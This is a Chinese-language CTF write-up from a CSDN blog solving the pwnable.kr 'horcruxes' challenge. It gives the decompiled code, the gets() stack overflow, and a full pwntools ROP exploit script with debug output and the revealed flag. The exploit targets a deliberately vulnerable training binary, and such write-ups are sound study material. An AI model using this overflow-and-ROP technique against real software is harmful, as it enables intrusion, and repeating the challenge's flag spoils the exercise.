

<!--yml
category: 未分类
date: 2022-04-26 14:40:33
-->

# PWN horcruxes [pwnable.kr]CTF writeup题解系列15_3riC5r的博客-CSDN博客

> 来源：[http://blog.csdn.net/fastergohome/article/details/103855101](http://blog.csdn.net/fastergohome/article/details/103855101)

题目内容：




先连接上去看看题目文件，看起来已经说了是一道rop的题目

```
root@mypwn:/ctf/work/pwnable.kr# ssh horcruxes@pwnable.kr -p2222
horcruxes@pwnable.kr's password: 
 ____  __    __  ____    ____  ____   _        ___      __  _  ____  
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \ 
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    / 
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \ 
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87@gatech.edu
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Sun Jan  5 14:04:15 2020 from 141.85.0.116
horcruxes@prowl:~$ ls -la
total 36
drwxr-x---   4 root horcruxes  4096 Aug  8  2018 .
drwxr-xr-x 116 root root       4096 Nov 12 21:34 ..
-rwxr-xr-x   1 root root      12424 Aug  8  2018 horcruxes
dr-xr-xr-x   2 root root       4096 Aug  8  2018 .irssi
drwxr-xr-x   2 root root       4096 Aug  8  2018 .pwntools-cache
-rw-r--r--   1 root root        131 Aug  8  2018 readme
horcruxes@prowl:~$ id
uid=1117(horcruxes) gid=1117(horcruxes) groups=1117(horcruxes)
horcruxes@prowl:~$ cat readme 
connect to port 9032 (nc 0 9032). the 'horcruxes' binary will be executed under horcruxes_pwn privilege.
rop it to read the flag.

horcruxes@prowl:~$ exit
logout
Connection to pwnable.kr closed.
root@mypwn:/ctf/work/pwnable.kr# scp -P 2222 horcruxes@pwnable.kr:/home/horcruxes/horcruxes ./
horcruxes@pwnable.kr's password: 
horcruxes                                                                              100%   12KB  22.4KB/s   00:00    
root@mypwn:/ctf/work/pwnable.kr# nc pwnable.kr 9032
Voldemort concealed his splitted soul inside 7 horcruxes.
Find all horcruxes, and destroy it!

Select Menu:1
How many EXP did you earned? : 1
You'd better get more experience to kill Voldemort
```

已经下载了执行文件，那就反编译成c语言代码：

main函数

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // ST1C_4

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  alarm(0x3Cu);
  hint();
  init_ABCDEFG();
  v3 = seccomp_init(0);
  seccomp_rule_add(v3, 0x7FFF0000, 0xAD, 0);
  seccomp_rule_add(v3, 0x7FFF0000, 5, 0);
  seccomp_rule_add(v3, 0x7FFF0000, 3, 0);
  seccomp_rule_add(v3, 0x7FFF0000, 4, 0);
  seccomp_rule_add(v3, 0x7FFF0000, 0xFC, 0);
  seccomp_load(v3);
  return ropme();
}
```

已经加载了seccomp规则，这道题目明显就是不想让我们调用系统指令。那就看看逻辑吧

ropme函数

```
int ropme()
{
  char s[100]; // [esp+4h] [ebp-74h]
  int v2; // [esp+68h] [ebp-10h]
  int fd; // [esp+6Ch] [ebp-Ch]

  printf("Select Menu:");
  __isoc99_scanf("%d", &v2);
  getchar();
  if ( v2 == a )
  {
    A();
  }
  else if ( v2 == b )
  {
    B();
  }
  else if ( v2 == c )
  {
    C();
  }
  else if ( v2 == d )
  {
    D();
  }
  else if ( v2 == e )
  {
    E();
  }
  else if ( v2 == f )
  {
    F();
  }
  else if ( v2 == g )
  {
    G();
  }
  else
  {
    printf("How many EXP did you earned? : ");
    gets(s);
    if ( atoi(s) == sum )
    {
      fd = open("flag", 0);
      s[read(fd, s, 0x64u)] = 0;
      puts(s);
      close(fd);
      exit(0);
    }
    puts("You'd better get more experience to kill Voldemort");
  }
  return 0;
}
```

看到有gets函数，那就是可以做栈溢出，检查一下保护机制：

```
root@mypwn:/ctf/work/pwnable.kr# checksec horcruxes
[*] '/ctf/work/pwnable.kr/horcruxes'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x809f000)
```

没有问题，只开了NX。不能做系统调用，就不用考虑调用system了。那就是要满足上面的条件：

```
atoi(s) == sum
```

应该问题不大，这里我碰到了一点小问题，就是ropme函数的地址是：0x080A0009，因为有特殊字符，所以没办法直接作为跳转指令输入进去，找一下调用的位置，可以看到汇编指令如下：

```
.text:0809FFF9                 add     esp, 10h
.text:0809FFFC                 call    ropme
```

就用0x0809FFF9代替ropme的指令就行了。其他的都比较简单，我直接贴出利用脚本：

```
#!python
#coding:utf8

from pwn import *

context.log_level = 'debug'
path_name = 'horcruxes'
process_name = './'+path_name
elf = ELF(process_name)

debug = 0
if debug == 1:
	p = process(argv=[process_name], env={'LD_LIBRARY_PATH':'./'})
else:
	p = remote('pwnable.kr', 9032)

def select_menu(m):
	p.sendlineafter('Select Menu:', str(m))

def send_payload(payload, b):
	p.sendlineafter('How many EXP did you earned? : ', payload)
	data = 0
	if b == 1:
		for x in xrange(0,7):
			p.recvuntil('EXP +')
			recvdata = int(p.recvuntil(')')[:-1])
			log.info("recvdata => %#d", recvdata)
			data += recvdata
	return data

select_menu('1')
payload = 'A'*(0x74+4) + p32(elf.symbols['A']) + p32(elf.symbols['B']) + p32(elf.symbols['C'])
payload += p32(elf.symbols['D']) + p32(elf.symbols['E']) + p32(elf.symbols['F']) + p32(elf.symbols['G'])
payload += p32(0x809FFF9)
d = send_payload(payload, 1)

select_menu('1')
send_payload(str(d), 0)

p.interactive()
```

执行结果如下：

```
root@mypwn:/ctf/work/pwnable.kr# python horcruxes.py 
[DEBUG] PLT 0x809fc20 seccomp_init
[DEBUG] PLT 0x809fc30 read
[DEBUG] PLT 0x809fc40 printf
[DEBUG] PLT 0x809fc50 gets
[DEBUG] PLT 0x809fc60 seccomp_rule_add
[DEBUG] PLT 0x809fc70 getchar
[DEBUG] PLT 0x809fc80 seccomp_load
[DEBUG] PLT 0x809fc90 alarm
[DEBUG] PLT 0x809fca0 puts
[DEBUG] PLT 0x809fcb0 exit
[DEBUG] PLT 0x809fcc0 open
[DEBUG] PLT 0x809fcd0 srand
[DEBUG] PLT 0x809fce0 __libc_start_main
[DEBUG] PLT 0x809fcf0 setvbuf
[DEBUG] PLT 0x809fd00 rand
[DEBUG] PLT 0x809fd10 __isoc99_scanf
[DEBUG] PLT 0x809fd20 atoi
[DEBUG] PLT 0x809fd30 close
[DEBUG] PLT 0x809fd40 __gmon_start__
[*] '/ctf/work/pwnable.kr/horcruxes'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x809f000)
[+] Opening connection to pwnable.kr on port 9032: Done
[DEBUG] Received 0x39 bytes:
    'Voldemort concealed his splitted soul inside 7 horcruxes.'
[DEBUG] Received 0x32 bytes:
    '\n'
    'Find all horcruxes, and destroy it!\n'
    '\n'
    'Select Menu:'
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0x1f bytes:
    'How many EXP did you earned? : '
[DEBUG] Sent 0x99 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000070  41 41 41 41  41 41 41 41  4b fe 09 08  6a fe 09 08  │AAAA│AAAA│K···│j···│
    00000080  89 fe 09 08  a8 fe 09 08  c7 fe 09 08  e6 fe 09 08  │····│····│····│····│
    00000090  05 ff 09 08  f9 ff 09 08  0a                        │····│····│·│
    00000099
[DEBUG] Received 0x32 bytes:
    "You'd better get more experience to kill Voldemort"
[DEBUG] Received 0x16e bytes:
    '\n'
    'You found "Tom Riddle\'s Diary" (EXP +408520243)\n'
    'You found "Marvolo Gaunt\'s Ring" (EXP +46703592)\n'
    'You found "Helga Hufflepuff\'s Cup" (EXP +-2034620221)\n'
    'You found "Salazar Slytherin\'s Locket" (EXP +271549308)\n'
    'You found "Rowena Ravenclaw\'s Diadem" (EXP +358118367)\n'
    'You found "Nagini the Snake" (EXP +1336200820)\n'
    'You found "Harry Potter" (EXP +-1775032841)\n'
    'Select Menu:'
[*] recvdata => 408520243
[*] recvdata => 46703592
[*] recvdata => -2034620221
[*] recvdata => 271549308
[*] recvdata => 358118367
[*] recvdata => 1336200820
[*] recvdata => -1775032841
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0x1f bytes:
    'How many EXP did you earned? : '
[DEBUG] Sent 0xc bytes:
    '-1388560732\n'
[*] Switching to interactive mode
[DEBUG] Received 0x1f bytes:
    'Magic_spell_1s_4vad4_K3daVr4!\n'
    '\n'
Magic_spell_1s_4vad4_K3daVr4!

[*] Got EOF while reading in interactive
$ 
```